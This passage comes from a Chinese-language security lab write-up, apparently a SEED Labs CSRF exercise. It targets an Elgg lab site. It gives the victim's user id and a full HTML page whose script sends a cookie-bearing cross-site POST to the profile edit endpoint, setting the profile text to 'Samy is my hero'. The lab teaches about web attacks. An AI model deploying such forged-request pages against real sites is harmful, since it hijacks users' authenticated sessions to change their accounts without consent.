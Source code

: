 ### 1.2.2 获取Alice的ID

由1知alice的id为42

### 1.2.3 构造恶意站点

参数:

```
guid: (必须)
description:"<p>Samy is my hero</p>",
```

csrf_post.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF_POST</title>
</head>
<body>
CSRF_POST
</body>

<script>
    // 发送POST请求
    // 携带cookie
    fetch('http://www.csrflabelgg.com/action/profile/edit', {
        credentials: 'include',
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        // 传递参数
        body: new URLSearchParams({
            guid:42,
            description:"<p>Samy is my hero</p>",
        })
    })

</script>
</html>
```

### 1.2.4 测试

使用alice访问csrf_post.html后
